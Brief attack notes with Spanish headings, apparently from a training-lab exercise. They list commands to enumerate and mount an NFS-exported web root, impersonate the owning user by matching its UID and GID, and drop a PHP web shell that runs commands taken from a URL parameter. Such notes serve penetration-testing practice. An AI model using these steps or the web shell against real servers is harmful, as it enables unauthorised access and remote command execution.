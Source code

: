 
### ENUMERAR MONTURAS DISPONIBLES
```shell
showmount -e 10.10.11.191
```

### MONTAR
```shell
sudo mkdir /mnt/1
sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/1
```

# NFS Imitation
```shell
sudo su
cd /mnt
sudo useradd xela
sudo usermod -u 2017 xela  #CAMBIAR EL 2017 POR EL UID CORRECPONDIENTE.
sudo groupmod -g 2017 xela
sudo su xela

cd web-server

nano shell.php
<?php
	echo fread(popen($_GET['cmd'], "r"), 10000); 
?>
```